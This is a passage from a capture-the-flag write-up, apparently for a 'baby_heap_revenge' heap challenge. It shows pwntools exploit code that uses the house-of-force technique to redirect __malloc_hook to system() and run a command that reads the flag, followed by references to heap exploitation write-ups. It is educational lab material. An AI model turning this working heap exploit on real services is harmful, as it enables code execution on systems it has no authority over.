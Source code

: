 ```python

# 3. Using the house of force to get a chunk point to __malloc_hook.
#    Write the string to be executed by system() on heap meanwhile.
#    Finally, make __malloc_hook point to system(), pass the string
#    as malloc() argument, then trigger malloc()
# Note : we can't simply execute system("sh") since it will trigger
#        another malloc() during execution, and result in a infinite loop.
__malloc_hook = libc_base + libc.symbols[b'__malloc_hook']
offset = __malloc_hook - top_addr - 0x20
allocate(offset, b'cat /home/baby_heap_revenge/flag\x00')
str_addr = top_addr + 0x10
allocate(0xff8, p64(libc_base + libc.symbols[b'system']))

# 4. use malloc to trigger hook, don't use allocate() here since it will
#    failed to receive the prompt of data
send("1")
send(str(str_addr))

r.interactive()
```
### Reference
* [Off-By-One Vulnerability (Heap Based)](https://sploitfun.wordpress.com/2015/06/09/off-by-one-vulnerability-heap-based/)

    for using unaligned chunk size to overwrite `size` idea
* [HITCON CTF Qual 2016 - House of Orange Write up](
http://4ngelboy.blogspot.tw/2016/10/hitcon-ctf-qual-2016-house-of-orange.html)

    for using `sysmalloc` to trigger `_int_free` idea

    "Awesome technique, very impressive!"
